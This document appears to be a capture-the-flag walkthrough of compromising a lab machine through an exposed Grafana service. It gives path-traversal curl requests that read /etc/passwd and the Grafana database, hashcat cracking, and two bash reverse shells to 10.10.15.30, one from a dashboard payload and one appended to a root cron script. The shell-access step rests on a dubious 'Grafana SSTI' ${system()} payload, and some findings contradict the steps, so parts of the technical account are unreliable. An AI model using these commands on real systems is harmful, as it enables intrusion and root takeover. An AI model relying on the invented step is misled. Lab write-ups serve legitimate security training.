

# Planning Grafana Exploitation & Privilege Escalation Walkthrough

This report provides a detailed and professional breakdown of the **Planning** machine compromise.  
It highlights reconnaissance, exploitation of an exposed **Grafana service**, credential recovery, and privilege escalation to root.

---

## 1. Initial Reconnaissance

We began with a complete Nmap scan to identify all open ports and active services on the target host `10.129.33.173`:

```bash
nmap -p- -Pn 10.129.33.173 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.33.173 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.33.173 -v --script vuln -oN nmap_vuln.txt
```


Port **3000** revealed a **Grafana web interface**, typically used for monitoring and visualization dashboards.


---

## 2. Grafana Enumeration

The Grafana instance was accessible without authentication.  
Navigating to `/api/search` exposed sensitive endpoints and internal dashboards.


We queried `/api/dashboards/home` to extract system-level metadata, including hostnames and plugin details.


This confirmed the instance was running **Grafana v8.0.0**, a version known to be vulnerable to **Path Traversal (CVE-2021-43798)**.

---

## 3. Exploitation — CVE-2021-43798

We exploited the vulnerability to read arbitrary files from the server using a crafted URL path traversal payload:

```bash
curl http://10.129.33.173:3000/public/plugins/alertlist/../../../../../../../../etc/passwd
```


The response confirmed successful file disclosure, confirming the target’s exposure.

We then escalated our attack to retrieve the **Grafana configuration file**:

```bash
curl http://10.129.33.173:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```


---

## 4. Extracting and Cracking Credentials

After downloading the `grafana.db` SQLite database, we queried the internal tables for user credentials:

```bash
sqlite3 grafana.db
sqlite> .tables
sqlite> SELECT * FROM user;
```


Extracted password hashes were converted for **Hashcat** using `grafana2hashcat`:

```bash
python3 grafana2hashcat.py hashes.txt
hashcat -m 10900 hashcat_hashes.txt rockyou.txt
```

The cracked credentials revealed a valid user account:

```
admin : cricket
```

We used these credentials to log in to the Grafana web portal, confirming administrative access.

---

## 5. Gaining Shell Access

Through the **Grafana server-side template injection (SSTI)** capability in dashboard panels, we gained remote command execution.

By editing the dashboard query, we injected the following payload:

```
${system("bash -c 'bash -i >& /dev/tcp/10.10.15.30/4444 0>&1'")}
```


After executing the panel, our listener received a **reverse shell connection** under the `grafana` system user.


---

## 6. Privilege Escalation via Misconfigured Backup Script

During local enumeration, we found a cron job running a **backup script** owned by root with world-writable permissions:

```bash
ls -la /opt/backup.sh
```


We appended a reverse shell command to the script:

```bash
echo "bash -i >& /dev/tcp/10.10.15.30/5555 0>&1" >> /opt/backup.sh
```

After waiting for the scheduled task to run, a new root shell was received.



We confirmed access to `/root/root.txt`, completing the privilege escalation.

---

## 7. Conclusion

This assessment demonstrates a full compromise chain leveraging Grafana misconfiguration and local privilege escalation.

### Key Findings:
- Grafana 8.0.0 vulnerable to **CVE-2021-43798** (Path Traversal).  
- Database exposure led to plaintext credential recovery.  
- Weak operational security enabled dashboard-based command injection.  
- Root-owned backup scripts had insecure permissions allowing privilege escalation.

### Security Recommendations:
- Update Grafana to the latest patched version.  
- Restrict external access to internal monitoring dashboards.  
- Enforce strict file permissions for system scripts.  
- Avoid embedding plaintext credentials in local databases.  
- Regularly audit cron jobs and system services for privilege misuse.

---
